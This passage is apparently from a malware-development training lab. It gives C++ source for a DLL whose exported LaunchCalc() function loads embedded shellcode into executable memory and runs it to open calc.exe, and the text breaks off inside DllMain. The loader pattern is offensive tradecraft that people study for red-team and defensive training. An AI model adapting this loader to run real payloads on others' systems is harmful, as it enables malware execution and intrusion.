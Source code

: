 ```yaml
---
showTableOfContents: true
title: "Create a Basic DLL (Lab 1.1)"
type: "page"
---
```

## Goal
In this lab we'll create a simple Dynamic Link Library (DLL) in C++. 
The DLL will export a single function called `LaunchCalc()`. 
When called, this function will execute a small piece of embedded shellcode designed to launch the Windows Calculator (`calc.exe`). 
This exercise provides a practical foundation by creating the basic payload we will work with in subsequent labs.

## Code
Note that I also provide the code with a hefty helping of explanatory comments at the bottom.

```c++
#include <windows.h>

unsigned char calc_shellcode[] = {
    0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63,
    0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48,
    0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
    0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24,
    0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45,
    0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7,
    0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
};

BOOL ExecuteShellcode() {
    void* exec_memory = VirtualAlloc(NULL, sizeof(calc_shellcode),
                                     MEM_COMMIT | MEM_RESERVE,
                                     PAGE_EXECUTE_READWRITE);

    if (exec_memory == NULL) {
        return FALSE;
    }

    RtlCopyMemory(exec_memory, calc_shellcode, sizeof(calc_shellcode));

    void (*shellcode_func)() = (void(*)())exec_memory;

    shellcode_func();

    VirtualFree(exec_memory, 0, MEM_RELEASE);
    return TRUE;
}

extern "C" {
    __declspec(dllexport) BOOL LaunchCalc() {
        return ExecuteShellcode();
    }
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
```